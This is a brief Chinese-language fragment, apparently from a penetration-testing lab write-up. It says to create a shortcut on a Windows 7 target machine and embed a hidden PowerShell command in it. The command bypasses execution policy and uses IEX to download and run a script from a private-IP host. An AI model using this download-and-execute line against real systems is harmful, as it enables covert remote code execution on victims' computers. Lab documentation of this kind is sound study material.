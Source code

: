 ![Alt text](image-33.png)   
win7(靶机) 上创建快捷方式：   
![Alt text](image-34.png)   
并写入指令：   
```shell
 powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.228.129/test.ps1');test1.ps1"
```   